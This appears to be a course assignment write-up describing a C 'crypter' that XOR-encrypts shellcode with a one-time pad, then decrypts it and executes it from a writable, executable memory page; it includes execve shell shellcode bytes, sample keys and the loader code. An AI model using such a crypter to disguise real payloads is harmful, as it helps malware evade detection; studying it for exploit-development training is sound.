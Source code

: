 # Building a custom crypter

For this assignment a custom crypter had to be implemented that encryptes a shellcode and that is able to decrypt the shellcode and execute it.

I have decided to implement a ```One-time pad encrypter``` meaning that it generates a random and unique key of each encryption whereas the key is of the same size as the shellcode.

## Usage

### Encryption
-e specifies the shellcode that you want to be encrypted. 

```
./crypter -e \x48\x31\xc0\x99\x50\x5e\x48\xbb\xfe\xee\x31\x5b\x2f\x2f\x73\x68\x48\x81\xc3\x31\x73\x37\x13\x50\x53\x54\x5f\xb0\x3b\x0f\x05
[*] Crypting your payload ...
[+] Generated One-time pad of length: 31
\xc1\xcf\x0f\x9f\x6c\x83\xdd\x09\x35\xc6\xec\x14\x4a\x72\xed\x48\x6a\x97\x0d\x8c\x62\xeb\x8c\x78\xd9\x0b\x20\xcc\xc3\x06\x73
[+] Encryption done:
\x89\xfe\xcf\x06\x3c\xdd\x95\xb2\xcb\x28\xdd\x4f\x65\x5d\x9e\x20\x22\x16\xce\xbd\x11\xdc\x9f\x28\x8a\x5f\x7f\x7c\xf8\x09\x76
[+] Bye
```

As you can see it first generates a random One-time pad of the same length as your specified shellcode.
The result is the One-time pad and the encrypted version of the shellcode.

### Decryption and execution
-d specifies the encrypted shellcode
-k specifies the One-time pad

```
./crypter -d \xe9\xf5\x05\x57\xfa\x36\xf8\x04\xbd\x11\x0c\xba\xf2\xd2\x14\x23\x73\xd5\xf5\x39\x39\xa5\xe5\xfd\x4f\x9a\x8a\xb0\x72\x15\xb5 -k \xa1\xc4\xc5\xce\xaa\x68\xb0\xbf\x43\xff\x3d\xe1\xdd\xfd\x67\x4b\x3b\x54\x36\x08\x4a\x92\xf6\xad\x1c\xce\xd5\x00\x49\x1a\xb0
[*] Starting decrypting ..
[*] Decryption done ...
[*] Create executable page and write shellcode to it
[*] Executing shellcode
[flink@Moor Assignment7]$ 
```

The tool decryptes the shellcode and executes it afterwards.

## Implementation

The entire implementation is done in C. Here I will present you its most relevant parts:
### Generate a random One-time pad
```
arc4random_buf(xor_key, sizeof xor_key);
```
I make use of the arc4random_buf function that original comes from the BSD world. It is known to generate true _random_ bytes and places them into a buffer. I really like how easily this function can be used.
### Encrypt
```
   for ( int i = 0; i < len_payload; ++i )
       payload[i] ^= xor_key[i];
```
This is pretty straight forward. Simply xor every byte of the payload with the respective byte of the One-time pad.

The decryption just works vice versa thanks to xor.

### Execute 
```
    void *page = mmap( NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC,
            MAP_ANONYMOUS | MAP_PRIVATE, 0, 0);

    if ( page == MAP_FAILED )
        fatal(NULL);

    if ( len_payload > 0x1000 )
        fatal(NULL); // WTF SHELLCODE!?

    memcpy( page, payload, len_payload);
    printf("[*] Executing shellcode\n");
    ((void(*)()) page)();
```

Next I need to place my shellcode in an executable region. 
To do so I allocate a new page using the mmap syscall and mark the new page as _writeable_ and _executable_.
The decrypted shellcode is placed in the new page and finally executed.
